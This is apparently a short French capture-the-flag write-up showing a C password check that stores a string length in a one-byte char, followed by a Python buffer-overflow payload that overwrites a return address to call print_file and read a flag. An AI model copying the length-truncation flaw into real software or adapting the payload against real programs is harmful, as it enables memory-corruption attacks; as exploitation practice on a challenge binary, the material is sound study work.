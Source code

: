 
## Example 1

```c
char sz; // 1 byte [0,255] 0 FF [8,0x28(40)]  
  
PRINTF("Enter password:\n");  
  
tmp = get_data();  
sz = strlen(tmp); // if plus than 255 ?  
  
if (sz < MIN_SIZE || sz > MAX_SIZE) {  
    PRINTF("INVALID PASSWORD\n");  
    return;  
}
```

sz est de type char => [0, 0xFF]

Donc juste check bits de poids fort.
=> On peut overflow si MIN = 8 et MAX = 80 => si len = 174 le check est valider 

```python
  
buf = b'a' * 57   
buf += p32(0x080493F6) # print_file  
buf += p32(0x0804C034) # exit  
buf += p32(0x0804A05C) # 1st arg : on s'en fou  
buf += p32(0x804c1a4) # 2nd arg : end of glb_buf  
  
# Add padding for overflow  
if (len(buf) % 255 < 8):  
    size = 295  
elif (len(buf) % 255 > 40):  
    size = 264-len(buf)  
else:  
    size = 0  
#size = 183  
print("size: %s" % hex(size))  
print("len buf: %s" % hex(len(buf)))  
print("len buf + size: %s" % hex(len(buf)%255 + size) )  
buf += b'b' * (size - 4) # cat for flag  
buf += b'flag\0' # Add flag at the end of the glb_buf  
target.sendline(buf)
```